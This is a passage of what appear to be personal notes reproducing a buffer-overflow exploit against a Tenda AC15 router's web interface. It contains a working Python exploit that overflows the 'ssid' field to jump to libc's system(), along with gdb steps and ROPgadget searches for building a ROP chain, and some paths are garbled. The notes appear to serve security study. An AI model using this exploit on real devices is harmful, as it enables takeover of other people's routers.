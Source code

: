 29、Build an exploit script on the host:

```python
import requests
from pwn import *

ji_addr = 0x76dab000  # libc base
one_jg_addr = ji_addr + 0x00064144  # address of readable string in libc (for second strcpy src)
system_addr = ji_addr + 0x0005A270  # address of system in libc

payload = b'a'*(0x60) + p32(one_jg_addr) + b'b'*(0x18) + p32(system_addr)
url = "http://192.168.3.3/gofrom/fast_setting_wifi_set"
cookie = {"Cookie":"password=qweqwe"}
data = {"ssid":payload}

response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```

30、With gdb connected, run the script to send packets:

```
b *0x67070, 0x67088, 0x6775c  # breakpoints set around first strcpy
c  # continue
--------------
python3 exp_ac15.py  # send exploit from host
--------------
n  # step through on guest; observe in gdb; see jump to 0x5a270 (formGetSystemStatus+8580) succeed
```

31、After successful jump, start building the ROP chain.

```
// Inspect libc's system function in IDA
int __fastcall system(int a1) // It takes a single argument
{
    ............
}
```

32、We anticipate assembly like:

```
mov r0, sp ; blx <reg>
```

33、Use ROPgadget to search for gadgets:

```
ROPgadget --binary ../../gujian/squashfs-root/1ib/1ibc.so.0 | grep "mov r0,sp:blx"
```

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-8.png)

```
ROPgadget --binary ../../gujian/squashfs-root/1ib/1ibc.so.0 --only pop
```
